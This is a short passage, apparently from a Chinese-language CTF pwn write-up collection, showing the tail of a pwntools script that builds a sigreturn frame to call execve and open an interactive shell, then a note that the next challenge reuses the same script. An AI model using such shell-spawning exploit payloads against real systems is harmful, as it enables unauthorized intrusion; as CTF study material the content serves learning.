 ```python
frame.rax = constants.SYS_execve
frame.rdi = stack_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
payload += flat(frame)
io.send(payload)
io.interactive()
```
# buu072-jarvisoj_level5
同第36题，脚本都不用变。

